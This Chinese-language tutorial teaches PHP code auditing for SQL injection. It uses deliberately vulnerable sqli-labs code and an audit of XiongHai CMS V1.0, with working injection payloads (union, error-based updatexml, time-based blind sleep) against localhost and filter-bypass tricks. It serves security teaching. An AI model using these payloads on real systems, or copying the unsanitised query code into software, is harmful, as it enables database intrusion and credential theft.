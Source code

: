 
# 0x00 简介

为什么第一章我们学习，因为看这篇文章的朋友大概也看过我前面写的MySQL_wiki系列，这里来SQL注入的话我们能方便理解，同时sql注入也是审计中我们经常想要找到的，比较以来就getshell什么的也不现实这种漏洞也不多。

# 0x01 字符型注入

这里我们看到sqli-libs第一关的代码

```
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables 
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);
// connectivity 
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
?>

```
我们可以看到调用`$_GET['id']`获取参数内容，没有经过任何过来带入了SQL语句的查询，也就是代码没有任何过来且没开魔术引号，那么将会形成注入，如果开启魔术引号遇到数字型的我们还是能够注入的，因为`magic_quotes_gpc`只会转义单引号、双引号、反斜线、NULL，但是数字型注入我们可以不试用到这些。

```
http://127.0.0.1/sqli/Less-1/?id=-1%27union%20select%201,user(),3--%20+

```

# 0x02 编码类注入

有些为了业务需要他会把传入一些编码后的参数再解码带入数据库查询，我们常见的有base64编码，也有的程序会内置url解码，这类写法通常见于框架。

1.base64

```
<?php
include("../sql-connections/sql-connect.php");
$id=base64_decode($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
if ($row) {
    echo "id:".$row['id']."<br>";
    echo "用户名:".$row['username']."<br>";
    echo "密码:".$row['password']."<br>";
}else{
    print_r(mysql_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```
传入的值base64解密后带入查询，这种注入魔术引号是没办法拦截的，当我们遇到网站为base64编码的参数时可以留意下。

```
http://127.0.0.1/sqli/Less-1/base64.php?id=JyB1bmlvbiBzZWxlY3QgMSx1c2VyKCksMyAtLSAr

```
2.urldecode

```
<?php
include("../sql-connections/sql-connect.php");
$id=urldecode($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
if ($row) {
    echo "id:".$row['id']."<br>";
    echo "用户名:".$row['username']."<br>";
    echo "密码:".$row['password']."<br>";
}else{
    print_r(mysql_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```
因为接受的参数只会被url解码一次，传入的值不是魔术引号认识的值所以可以绕过

```
http://127.0.0.1/sqli/Less-1/base64.php?id=%2527union%20select%201,user(),3--%20+

```

# 0x03 宽字节注入

```
<?php
$conn = mysql_connect('localhost', 'root', 'root');
mysql_select_db("security",$conn);
mysql_query("set names 'gbk' ",$conn);
$id=urldecode($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
if ($row) {
    echo "id:".$row['id']."<br>";
    echo "用户名:".$row['username']."<br>";
    echo "密码:".$row['password']."<br>";
}else{
    print_r(mysql_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```
网上有很多解释大家可以搜索一下我这里就不详细介绍了大概原因就是:

id=1'->id=1\'->id=1%5c%27

id=1%df'->id=1%df%5c%27->id=1%DF5C%27->id=1運'


当然还有其他各种类型的注入这里就不一一列举了，看了mysql系列文章的大概都知道，不知道的可以看看。

# 0x04 过滤

通常情况下一个成熟的cms是不存在不过滤的情况，一般的程序选择用函数来过滤比如`addslashes()`，也可以开启魔术引号，但是更多的程序它采用正则匹配来过滤，
使用不正确的匹配替换方式反而导致被绕过的机会更大，比如有的程序把`union` 替换为空，那么我们就可以双写`ununionion`绕过从而还可能绕过外部WAF,对于整数型一般采用`intval()`等字符转换，后期通过实战一步一步讲解。

# 0x05 实战审计

找了半天源码，还是用这款熊海CMS V1.0吧，这款CMS感觉不错，什么洞都有，非常适合我们学习审计，同时审计这个cms的文章很多，大家如果觉得我写的不如人意，还能看看别人。

首先我们审计对传入的参数如果想快速的看是否有全局过滤，不妨找个文件输出一下`$_POST`、`$_GET`等等。

```
echo $_POST['b'];
echo $_GET['a'];

```

![file](./img/1.2.1.png)

没有全局过滤 我们来到后台登陆文件admin/files/login.php 看看login.php一般登陆存在注入的可能性还是很大的

![file](./img/1.2.2.png)

很明显 带入查询的user没有经过任何过滤，同时输出了错误，所以可以用报错查询，当然你也选择万能密码。

payload:

```
user=1111' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))-- +&password=111&login=yes

```

![file](./img/1.2.3.png)

在看看留言板 files/submit.php 

![file](./img/1.2.4.png)

传入参数没有过滤

![file](./img/1.2.5.png)

同时插入的时候，这里使用了`mysql_error()`所以可以用报错注入，否则只能使用盲注了。

![file](./img/1.2.6.png)

payload:

```
cid=0&name='or updatexml(1,concat(0x7e,(version())),0) or'&mail=1111&url=http%3A%2F%2F1&content=%E9%98%BF%E5%BE%B7&save=%E6%8F%90%E4%BA%A4&randcode=&jz=1&tz=1
```

开始我们说过不是使用了过滤函数就万事大吉了，数字型注入可以不使用引号

![file](./img/1.2.7.png)

我们看到传入的`cid`已经被`addslashes()`函数转义了，查询的地方都没啥问题，但是到浏览计数的时候调用了它，那么我们就可以使用盲注或者报错注入了，因为有错误回显。

payload：

```
http://127.0.0.1/xhcms/?r=content&cid=1%20and%20If(ascii(substr(database(),1,1))%3C10,0,sleep(10))

```

这个系统还有其他注入，想练手的自己下载审计一下，总体思路有用户交互的地方都有可能存在注入，这也是我们没有通读代码的一个审计思路。

